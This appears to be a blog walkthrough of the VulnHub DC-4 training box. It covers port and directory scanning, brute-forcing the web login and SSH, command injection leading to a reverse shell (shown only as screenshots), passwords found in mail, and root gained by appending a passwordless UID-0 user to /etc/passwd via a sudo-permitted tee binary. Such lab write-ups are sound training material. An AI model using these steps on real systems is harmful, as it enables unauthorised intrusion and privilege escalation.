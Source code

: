 ```yaml
---
layout: "post"
title: "DC 4 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-4, easy, teehee]
---
```

DC-4 is a good beginner-friendly box. We `bruteforce` the website and get admin password. with the help of `OS command injection` vulnerability get shell on box. The old-password list gives password of user jim and mail from charles gives another password. We get root by adding user in `/etc/passwd` file using `teehee`. 

# Summary
- Portscan
- Bruteforce site to get admin password
- Command Injection
- Bruteforce SSH 
- Find password from mail
- Check Sudoers
- Add new user using teehee
- Root access
- The Flag

# Recon

## Portscan
```bash
Nmap scan report for 192.168.1.8
Host is up (0.00020s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Website
We have a login page on the website with title `Admin inforamtion Systems login` 
![mainpage](/assets/img/dc-4/mainpage.png)
## Gobuster
After running gobuster we see that we have a `command.php` but it redirect to login.php. I tried sql injection and other attacks but no luck. The final option is Bruteforce.

```bash
$gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.8 -x php,html,txt -o go-main.out
/index.php (Status: 200)
/images (Status: 301)
/login.php (Status: 302)
/css (Status: 301)
/logout.php (Status: 302)
/command.php (Status: 302)
```
# Bruteforce using burpsuite
As per the site mainpage, I set username filed as `admin` and using burpsuite brute force the login page.

![burpsuite](/assets/img/dc-4/b1.png)
![burpsuite](/assets/img/dc-4/b2.png)

We get credentials.

```
username : admin
password : happy
```

# Command injection
After login we have command option by clicking this we can see list of commands.
Pick one of them and see the result.

![command](/assets/img/dc-4/command.png)
![command2](/assets/img/dc-4/command2.png)

So, I intercept the request in burp and send it to repeter.
Change the radio option to reverse shell, set up netcat listener and get the shell.

![reverse](/assets/img/dc-4/b3.png)
![nc](/assets/img/dc-4/nc.png)

# First User 
There are 3 user on box *charles, jim* and *sam*. We found old-password.txt in home directory of user jim.
![users](/assets/img/dc-4/users.png)
Now brute force the SSH and we get password for jim.
![hydra](/assets/img/dc-4/ssh.png)

Use this password to login to ssh.

```
username : jim
password : jibril04
```

# Second User
The jim directory has `mbox` which is an test email. So, I checked `/var/mail` folder there is mail for jim.

```
jim@dc-4:~$ ls
backups  mbox  test.sh
jim@dc-4:~$ cd /var/mail
jim@dc-4:/var/mail$ ls
jim
```

Mail has password for `charles`.
```
jim@dc-4:/var/mail$ cat jim
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
	(envelope-from <charles@dc-4>)
	id 1hCjIX-0000kO-Qt
	for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```
Use this password to login to `charles`.

```
jim@dc-4:~$ su - charles
Password: 
charles@dc-4:~$ 
```

```
username : charles
Password : ^xHhA&hvim0y
```

# Privsec to root
Now I checked the sudoers list and found that I can run teehee command without password.

```
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

We can also see the help menu.

```
charles@dc-4:~$ teehee --help
Usage: teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.

  -a, --append              append to the given FILEs, do not overwrite
  -i, --ignore-interrupts   ignore interrupt signals
  -p                        diagnose errors writing to non pipes
      --output-error[=MODE]   set behavior on write error.  See MODE below
      --help     display this help and exit
      --version  output version information and exit

MODE determines behavior with write errors on the outputs:
  'warn'         diagnose errors writing to any output
  'warn-nopipe'  diagnose errors writing to any output not a pipe
  'exit'         exit on error writing to any output
  'exit-nopipe'  exit on error writing to any output not a pipe
The default MODE for the -p option is 'warn-nopipe'.
The default operation when --output-error is not specified, is to
exit immediately on error writing to a pipe, and diagnose errors
writing to non pipe outputs.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/tee>
or available locally via: info '(coreutils) tee invocation'

```
This binary append standered input to file. I added user in the /etc/passwd.

```
charles@dc-4:~$ sudo teehee -a /etc/passwd
user::0:0:::/bin/bash 
user::0:0:::/bin/bash
^C
charles@dc-4:~$ su user
root@dc-4:/home/charles# 
```
# Root Flag

```bash
root@dc-4:/root# cat flag.txt 



888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
